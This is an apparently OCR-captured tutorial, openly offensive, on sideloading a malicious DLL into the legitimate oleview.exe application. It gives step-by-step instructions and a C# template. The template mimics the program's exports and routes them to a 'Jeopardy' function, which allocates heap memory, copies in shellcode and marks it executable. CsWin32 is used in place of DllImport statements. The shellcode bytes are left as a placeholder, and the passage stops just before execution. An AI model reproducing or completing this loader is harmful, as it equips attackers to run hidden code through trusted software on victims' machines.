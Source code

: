 This method allows you to sideload a malicious DLL into a legitimate application, with the malicious functions all directing execution to your injected shellcode via the `Jeopardy` function.

To create a C# program that mimics the exported functions from `oleview.exe`, injects shellcode, and uses the `CsWin32` source generator to avoid `DllImport` statements, follow these steps:

### **Step 1: Enumerate Required DLLs and Functions**
First, use Dependency Walker or a similar tool to identify the DLLs and functions that `oleview.exe` requires. Let's assume you've identified the necessary functions.

### **Step 2: Set Up CsWin32 for P/Invoke**
**CsWin32** is a source generator that creates P/Invoke code from Windows SDK metadata, eliminating the need for `DllImport` statements.

1. **Install CsWin32 via NuGet**:
   - Add `Microsoft.Windows.CsWin32` to your project:
     ```bash
     dotnet add package Microsoft.Windows.CsWin32
     ```
   - Or through Visual Studio NuGet Package Manager.

2. **Configure CsWin32**:
   - Create a `NativeMethods.txt` file in your project with the following content (this file tells CsWin32 which functions to generate):
     ```
     HeapCreate
     HeapAlloc
     VirtualProtect
     ```

### **Step 3: Generate C# Code Using CsWin32**

With the functions required by `oleview.exe` identified, you can now generate a C# program that mimics these functions and includes the `Jeopardy` function to inject and execute shellcode.

Here’s the structure of the generated C# program:

```csharp
using System;
using Microsoft.Windows.Sdk;

namespace MimicDll
{
    public static class Program
    {
        static void Main(string[] args)
        {
            // Entry point for testing or debugging
        }

        // This method will be called by all exported functions
        private static void Jeopardy()
        {
            byte[] shellcode = new byte[] { /* Insert your shellcode here */ };

            IntPtr heap = PInvoke.HeapCreate(0x00040000, new UIntPtr((uint)shellcode.Length), UIntPtr.Zero);
            IntPtr addr = PInvoke.HeapAlloc(heap, 0x00000008, new UIntPtr((uint)shellcode.Length));

            Marshal.Copy(shellcode, 0, addr, shellcode.Length);

            // Optionally: Make memory executable if necessary
            PInvoke.VirtualProtect(addr, new UIntPtr((uint)shellcode.Length), PInvoke.PAGE_EXECUTE_READWRITE, out uint oldProtect);

            // Execute the shellcode
```